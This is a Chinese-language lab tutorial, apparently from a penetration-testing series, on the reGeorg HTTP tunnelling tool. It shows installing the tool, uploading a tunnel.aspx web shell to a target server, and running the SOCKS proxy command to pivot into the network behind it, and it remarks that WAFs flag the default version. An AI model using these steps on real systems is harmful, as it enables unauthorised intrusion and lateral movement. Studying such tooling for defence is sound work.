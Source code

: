 

### reGeorg简介：

reGeorg 的前身是2008年 SensePost 在 BlackHat USA 2008 的 reDuh 延伸与扩展。也是目前安全从业人员使用最多，范围最广，支持多丰富的一款 http 隧道。从本质上讲，可以将 JSP/PHP/ASP/ASPX 等页面上传到目标服务器，便可以访问该服务器后面的主机。

2014年blackhat介绍  
https://www.blackhat.com/eu-14/arsenal.html#regeorg

Github：  
https://github.com/sensepost/reGeorg

**攻击机：**  
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

安装：
```bash
root@John:~# git clone https://github.com/sensepost/reGeorg.git
Cloning into 'reGeorg'...
remote: Enumerating objects: 85, done.
remote: Total 85 (delta 0), reused 0 (delta 0), pack‐reused 85
Unpacking objects: 100% (85/85), done.
root@John:~# cd reGeorg/
root@John:~reGeorg# ls
LICENSE.html LICENSE.txt README.md reGeorgSocksProxy.py tunnel.ashx tu
nnel.aspx tunnel.js tunnel.jsp tunnel.nosocket.php tunnel.php tunnel.tomcat.5.jsp
root@John:~/reGeorg# python reGeorgSocksProxy.py ‐h


_____
_____ ______ __|___ |__ ______ _____ _____ ______
| | | ___|| ___| || ___|/ \| | | ___|
| \ | ___|| | | || ___|| || \ | | |
|__|\__\|______||______| __||______|\_____/|__|\__\|______|
|_____|
... every office needs a tool like Georg 

willem@sensepost.com / @_w_m__
sam@sensepost.com / @trowalts
etienne@sensepost.com / @kamp_staaldraad 

usage: reGeorgSocksProxy.py [‐h] [‐l] [‐p] [‐r] ‐u [‐v] 

Socks server for reGeorg HTTP(s) tunneller 

optional arguments:
‐h, ‐‐help show this help message and exit
‐l , ‐‐listen‐on The default listening address
‐p , ‐‐listen‐port The default listening port
‐r , ‐‐read‐buff Local read buffer, max data to be sent per POST
‐u , ‐‐url The url containing the tunnel script
‐v , ‐‐verbose Verbose output[INFO\|DEBUG]
```

```bash
root@John:~/reGeorg# pip install urllib3
Requirement already satisfied: urllib3 in /usr/lib/python2.7/dist‐packages (1.24)
```
![](media/c0a4051103d17e54b53982c1b6e8b631.jpg)



**靶机执行：**

以aspx为demo。  

![](media/6f441fb77ba89a092b149fc8b4bc7eb9.jpg)

**攻击机执行：**
```python
python reGeorgSocksProxy.py ‐p 8080 ‐l 192.168.1.5 ‐u http://192.168.1.119/tunnel.aspx
```
![](media/ecf64d63d586febad9c38bfa700ecd46.jpg)


Windows下配合Proxifier：  

![](media/e0ed655e244f7a76f703bfa13ec6bb4d.jpg)

![](media/48feea22eae0e72d9585eef488eb07f8.jpg)

非常遗憾的是，目前大部分waf都会针对默认原装版本的reGeorg。

>   Micropoor
